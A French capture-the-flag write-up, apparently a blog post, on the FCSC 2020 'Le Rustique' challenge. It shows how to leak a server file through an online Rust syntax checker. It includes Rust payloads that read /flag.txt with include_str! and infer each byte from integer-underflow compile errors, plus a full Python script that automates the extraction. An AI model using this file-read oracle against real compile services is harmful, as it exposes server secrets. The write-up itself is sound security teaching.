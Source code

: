 ```yaml
---
layout: post
title: FCSC 2020 - Le Rustique [Misc 200]
---
```


Le principe du challenge est simple : nous devons trouver un moyen de faire fuiter le fichier contenant le flag depuis un checker de syntaxe Rust en ligne. 

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust1.png)

N'ayant jamais utilisé Rust, ce challenge m'a un peu effrayé initialement mais je suis parvenu à en obtenir le flag après quelques heures avec une payload simple. Cela m'a aussi permis d'en apprendre plus sur ce langage et de relativiser certains préjugés sur sa complexité.

Testons tout d'abord un Hello World trouvé dans la documentation du langage, puis un code qui ne compilera pas :

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust3.png)

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust4.png)

Le checker est très peu verbeux, et ne renvoie que succès/échec. En inspectant les réponses de l'API, on pourrait espérer avoir un message d'erreur plus probant, mais ce n'est pas le cas : elle renvoie simplement `{"result":1}` ou `{"result":0}`.

Jetons un oeil à la FAQ :

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust2.png)

Nous pouvons en tirer trois informations importantes :

- Le code est compilé par rustc mais jamais exécuté
- La version de Rust sur le serveur est 1.14.0
- Un flag est présent à la racine du système dans /flag.txt

Ainsi, nous pouvons reproduire localement l'environnement du serveur pour pouvoir tester les payloads en ayant un retour plus complet du compilateur.

Nous allons tout d'abord devoir trouver une manière d'importer un fichier texte au moment de la compilation, puis effectuer des opérations pour faire fuiter le contenu du fichier.

### Première approche

Mon idée initiale était d'importer le flag comme une source Rust puis d'effectuer des transformations dessus pour récupérer des informations en fonction du succès/échec de la compilation.

On peut spécifier le chemin d'import en Rust en utilisant un attribute sur le module au moment de l'import : `#[path="/flag.txt"] mod flag;`. En revanche, rustc nous donne une belle erreur qui montre l'erreur de parsing sur notre "module" flag.txt :

```
error: expected one of `!` or `::`, found `{`
 --> flag.txt:1:5
  |
1 | FCSC{ceci est mon flag en local}
  |     ^ expected one of `!` or `::`

error: aborting due to previous error`
```

Je n'ai cependant pas trouvé de technique pour effectuer les transformations sur le texte du flag avant compilation, nous allons donc devoir explorer une autre piste.

### Utilisation des strings constantes

La seconde technique que j'ai trouvée pour lire des fichiers externes au moment de la compilation s'avère être plus fructueuse : il s'agit d'utiliser les macros `include_str` ou `include_bytes`. La documentation Rust nous donne un exemple d'utilisation facile à comprendre :

```rust
fn main() {
    let my_str = include_str!("spanish.in");
    assert_eq!(my_str, "adiós\n");
    print!("{}", my_str);
}
```

Pour confirmer que le fichier est effectivement lu au moment de la compilation avec ces macros, nous pouvons effectuer deux vérifications : tout d'abord, essayons d'importer un fichier inexistant.

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust5.png)

La compilation nous renvoie une erreur comme nous l'attendions. Un doute peut encore subsister : paut-être que le compilateur extrêmement rigoureux de Rust vérifie simplement que le fichier est présent au moment de la compilation, mais celui-ci n'est lu qu'à l'exécution. Pour lever ce doute, on peut vérifier que le contenu du fichier texte est bien présent dans l'exécutable.

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust6.png)

Voilà qui est rassurant, nous allons donc pouvoir essayer de titiller le compilateur pour lui faire cracher des erreurs en fonction du contenu du flag.

### Exfiltration du flag

Rust est un langage très strict, et il n'accepte pas que nous fassions des bêtises. Il y a deux bêtises qui énervent Rust et qui vont nous servir :

- Lire un caractère qui dépasse la fin d'une string
- Faire un overflow/underflow sur la valeur d'un entier

Nous utiliserons des variables `const` qui sont calculées au moment de la compilation, pour pouvoir effectivement déclencher les erreurs qui nous intéressent.

Utilisons la première astuce pour récupérer la taille du flag :

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust7.png)

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust8.png)

On constate que le compilateur n'a aucun souci pour nous permettre de lire `flag[70]` mais nous renvoie une erreur pour `flag[71]`, ce qui signifie que le flag fait 70 caractères. C'est cohérent avec le format de flags du CTF `FCSC{<64 hex>}`.

La seconde astuce nous permet maintenant de faire fuiter un caractère individuel du flag, en manipulant soigneusement les données pour créer un underflow d'entier (faire passer la valeur d'un entier unsigned sous zéro).

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust9.png)

![img]({{ site.baseurl }}/images/2020-05-fcsc/rust10.png)

La compilation plante lorsque nous faisons `flag[0] - 71` mais pas avec `flag[0] - 70` : le passage à une valeur négative se fait après 70, on peut donc en déduire que la premier caractère du flag est `F` dont le code ASCII est 70.

### Automatisation

Maintenant que nous avons une requête valide qui permet d'extraire des informations sur les caractères du flag, passons à l'automatisation. Il semble nécessaire de scripter les requêtes, car la partie hexadécimale du flag a une entropie de 256 bits, ce qui signifie que nous devrons faire 256 requêtes au minimum.

On peut automatiser une requête à l'API très simplement avec le module python `requests` :

```python
import requests

code = '''
fn main() {
    const s: &'static str = include_str!("/flag.txt");
    const b: u8 = s.as_bytes()[%d]-%d;
}
'''

def check(position, value):
    response = requests.post('http://challenges2.france-cybersecurity-challenge.fr:6005/check',
                             json={'content':code%(position,value)})
    return response.json()['result']   
```

On peut maintenant écrire la fonction qui trouve un caractère du flag. Une recherche dichotomique aurait été efficace (4 requêtes par caractère hex au lieu de 16), mais j'ai mis de côté mon esprit d'algorithmicien : en CTF, l'efficacité de la solution importe peu tant qu'on obtient le flag avant la fin, l'essentiel est de perdre le moins de temps possible sur l'implémentation. On va donc faire une recherche linéaire naïve :

```python
def search(pos):
    for c in '0123456789abcdef':
        if check(pos, ord(c)+1):
            return c
    return 'XXX'
```

Il ne nous reste plus qu'à itérer sur tous les caractères du flag pour gagner 200 points !

```python
flag = 'FCSC{'
for pos in range(5,70):
    flag += search(pos)
    print(flag)
```

À en croire mon historique de navigation, j'ai résolu ce challenge en un peu plus d'1h20, bien plus rapidement (et avec une payload bien plus courte) que je ne l'anticipais en voyant l'énoncé !

Merci à [\J](https://twitter.com/cryptanalyse) pour ce challenge, et merci à mon bfam [SIben](https://twitter.com/_SIben_) pour m'avoir incité à le regarder alors que Rust ma faisait peur :)

---

### Annexe - code source complet

```python
import requests

code = '''
fn main() {
    const s: &'static str = include_str!("/flag.txt");
    const b: u8 = s.as_bytes()[%d]-%d;
}
'''

def check(pos, val):
    response = requests.post('http://challenges2.france-cybersecurity-challenge.fr:6005/check', json={'content':code%(pos,val)})
    return response.json()['result']    

def search(pos):
    for c in '0123456789abcdef':
        if check(pos, ord(c)+1):
            return c
    return 'XXX'

flag = 'FCSC{'
for pos in range(5,70):
    flag += search(pos)
    print(flag)
```